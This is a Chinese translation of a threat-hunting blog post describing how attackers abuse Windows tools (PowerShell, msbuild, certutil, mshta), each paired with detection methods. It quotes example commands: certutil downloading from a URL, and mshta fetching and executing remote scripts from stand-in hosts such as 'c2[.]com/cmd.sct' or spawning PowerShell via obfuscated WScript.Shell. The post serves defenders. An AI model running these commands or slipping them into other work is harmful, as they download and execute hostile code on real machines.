


# Windows 威胁追踪:有趣的过程(第 1 部分)

> 原文：<https://infosecwriteups.com/windows-threat-hunting-processes-of-interest-4577fe35d32f?source=collection_archive---------1----------------------->

## 常见 Windows 进程以及黑客如何恶意使用它们的列表


(来源: [800 × 533](https://www.google.com/url?sa=i&url=https%3A%2F%2Fblogs.vmware.com%2Fsecurity%2F2019%2F05%2Ffour-steps-to-becoming-a-threat-hunter.html&psig=AOvVaw14cMEpGJGedeO4cpHLxflp&ust=1632660632391000&source=images&cd=vfe&ved=0CAsQjRxqFwoTCPj13_6UmvMCFQAAAAAdAAAAABA1) )

微软视窗操作系统是世界上使用最广泛的操作系统，被大型组织和个人广泛使用，占设备的 60%以上。它也广泛用作服务器操作系统。由于它的广泛使用，它经常成为各种攻击和威胁的目标。在这篇文章中，我们将讨论一系列可能被黑客恶意使用的合法 Windows 进程和程序。了解如何使用这些流程对于主动检测恶意活动和防御利用这些流程的攻击非常重要。

## [powershell](https://docs.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.1)

PowerShell 是一个内置的 Windows 工具，基于。NET 框架。它由一个命令行界面组成，该界面与各种 Windows 服务深度集成，也可用于创建脚本。PowerShell 是一个具有脚本功能的合法 Windows 工具，经常用于系统管理和配置管理任务，它为黑客提供了一种方法来执行伪装成常见命令的恶意有效负载，并允许它们混入正常的网络流量和系统活动中。PowerShell 脚本被广泛用作许多无文件恶意软件的组件。传统攻击通常依赖于可执行文件的传送和执行来利用漏洞，而无文件恶意软件不需要任何附加文件，并且驻留在内存中。它利用内置的可信应用程序(如 PowerShell)来逃避检测。Windows *cmd* 也可以用类似的方式来执行有效载荷。下面是一个混淆的恶意 Powershell 负载的示例。请访问图片说明中的文章，它解构并分析了这是怎么回事！



来源:[https://threat post . com/powershell-payload-analysis-malware/165188/](https://threatpost.com/powershell-payload-analysis-malware/165188/)

**检测方法:** PowerShell 模块日志记录、脚本块日志记录**、** PowerShell 转录记录并保存 cli 会话的输入和输出，监控网络流量等。

## [**msbuild**](https://docs.microsoft.com/en-us/visualstudio/msbuild/msbuild?view=vs-2019)

*msbuild* 是一个用来构建应用程序的工具，可以在不需要在系统上安装 Visual Studio 的情况下构建产品。它为项目文件提供一个 XML 模式，控制文件的编译方式，然后根据这些规范构建软件并在内存中执行。msbuild 的这种在内存中执行代码的能力，就像 PowerShell 一样，使其成为无文件攻击中的一个有用组件，使其难以检测，并且经常被主要的反恶意软件引擎错过。在野外，msbuild 已被用于部署 Remcos RAT、RedLine Stealer 等远程访问特洛伊木马。



攻击流程[来源:Anamoli 威胁研究]

**检测方式:**进程监控*msbuild.exe*的执行和参数

## [certutil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)

*certutil* 是一个内置的 Windows 命令行工具，用于管理和配置证书服务和组件，以及转储与它们相关的信息。网络防御团队越来越意识到 PowerShell 等工具的滥用，因此越来越多的威胁参与者开始寻求替代方法来进一步避免检测。certutil 就是 PowerShell 的一个替代产品。由于其广泛的命令行功能，它可以用于从 URL 下载文件，甚至用于十六进制和 base64 编码和解码操作。黑客可以滥用此功能下载恶意文件，并对伪装成合法程序的恶意软件进行编码和解码。以下是一些可用于恶意活动的 certutil 内置选项。

```
**certutil -urlcache -f *<url>*** *(File download)* **certutil -encode** (*base64 encoding)*
**certutil -decode** *(base64 decoding)* **certutil -decodehex** (*hex decoding)*
```

**检测方法:**进程日志记录并监控 decode/encode 和 urlcache 参数的使用情况。

## [mshta](https://docs.microsoft.com/en-us/previous-versions/ms536496(v=vs.85))

*mshta* 是一个内置的 Windows 实用程序，用于执行微软 HTML 应用程序(hta)文件。HTA 是独立的应用程序，使用与 Internet Explorer 相同的底层技术执行，但能够在浏览器之外运行。 *mshta* 的这一功能使其成为对手的热门选择，因为它可以用来触发伪装成。 *hta* 文件和隐秘的代码执行，因为扫描器和检测可能不知道它的潜在用途，也不监控它的活动。此外，由于 mshta 能够在浏览器之外运行，它也可以绕过任何可能存在的浏览器安全限制。它可以通过执行远程文件、内联 JavaScript 或 Vbscript 等多种方式使用。有几个利用 *mshta* 执行恶意代码的不同类型威胁的例子。以下是迈克菲实验室和米特 ATT & CK 强调的一些示例使用方法。

```
Remote file execution -***mshta http[:]//maliciouswebsite.com/legit.hta******mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))***Inline script execution -***mshta vbscript:(CreateObject(“WS”+”C”+”rI”+”Pt.ShEll”)).Run(“powershell”,1,True)(window.close)******mshta javascript:a=GetObject(“script:http://c2[.]com/cmd.sct”).Exec()***
```

**检测方法:**监控可疑流程祖先、流程和流程元数据、内联脚本执行、重命名*mshta.exe*实例、执行*。hta* 文件等。

我们将继续这个列表，并在第二部分 中讨论更多被攻击者用来逃避检测的进程和替代方法！